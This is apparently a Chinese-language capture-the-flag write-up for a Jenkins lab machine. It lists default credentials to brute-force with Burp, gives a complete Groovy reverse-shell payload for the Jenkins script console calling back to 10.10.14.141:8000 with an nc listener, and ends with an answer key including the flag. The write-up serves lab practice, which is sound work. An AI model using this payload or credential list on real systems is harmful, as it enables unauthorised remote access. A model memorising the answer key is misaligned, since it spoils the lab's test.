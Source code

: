 ## 思路

1. nmap 扫描发现 jenkins 服务
2. 常用默认凭据登入后台
3. jenkins 控制台 RCE
4. nc 反弹 shell
5. 获取 flag

### 登入后台

**常用默认凭据：**

**账号：**

```
admin
root
```

**密码**

```
password
root
admin1
password1
```

- 用 burp 爆破就好了，攻击类型选择集束炸弹。

### 控制台RCE

**payload：**

```groovy
String host="10.10.14.141";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())
{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try
{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

**本地监听**

```
nc -lvnp 8000
```

- flag 在 /root 目录下。

### 答案

1. Common Vulnerabilities and Exposures
2. Confidentiality, Integrity, Availability
3. Jetty 9.4.39.v20210325
4. 2.289.1
5. groovy
6. cmd.exe
7. ifconfig
8. -u
9. reverse shell
10. 9cdfb439c7876e703e307864c9167a15